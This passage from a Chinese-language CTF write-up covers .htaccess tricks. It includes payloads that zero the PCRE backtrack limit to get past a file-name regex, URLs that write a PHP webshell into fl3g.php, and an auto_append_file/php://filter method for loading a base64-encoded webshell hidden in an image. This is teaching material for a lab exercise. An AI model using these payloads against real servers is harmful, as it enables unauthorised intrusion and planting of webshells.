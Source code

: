 ```php
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

我们还是通过刚才那个 CTF 例题来看一下具体的利用过程。

进入题目，给出源码：

```php
<?php
    ......
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    ......
    file_put_contents($filename, $content . "\nJust one chance");
?>
```

可以看到代码中的 preg_match 使用正则匹配限制filename只能是 a-z 和点号 . ，那我们便可以通过写入 .htaccess 设置回溯次数（pcre.backtrack_limit）为 0，从而绕过这里的正则回溯，直接将我们的Webshell写入fl3g.php。

首先将 pcre.backtrack_limit 的配置写入 .htaccess：

```php
/index.php?filename=.htaccess&content=php_value%20pcre.backtrack_limit%200%0Aphp_value%20pcre.jit%200%0A%23%20%5C
```

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146123182-88e331d9-c914-4b52-b6e7-10b985ef099c.png#alt=img)

然后访问以下 url 将 Webshell 写入fl3g.php：

```php
/index.php?filename=fl3g.php&content=<?php phpinfo();?>
```

执行后可以发现，成功将Webshell写入了fl3g.php：

![](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/1681146123155-2c0d1965-7d99-43ea-b49b-cb34c35b13b0.png#alt=img)

### 绕过 <? 特殊字符

有时候，目标环境会限制我们上传或写入的文件内容中不能存在 <? 等特殊字符，如果没有限制 .htaccess 的话，我们同样可以使用 .htaccess 来绕过。

#### Base64 编码绕过

主要就是利用 auto_append_file 和 PHP 伪协议，比如我们在一个图片中写入经过base64编码后的 Webshell，然后我们便可以使用 auto_append_file 配合 php://filter 将其包含进来：

```php
php_value auto_append_file "php://filter/convert.base64-decode/resource=images.png"

# images.png 中是经过base64编码后的Webshell
```
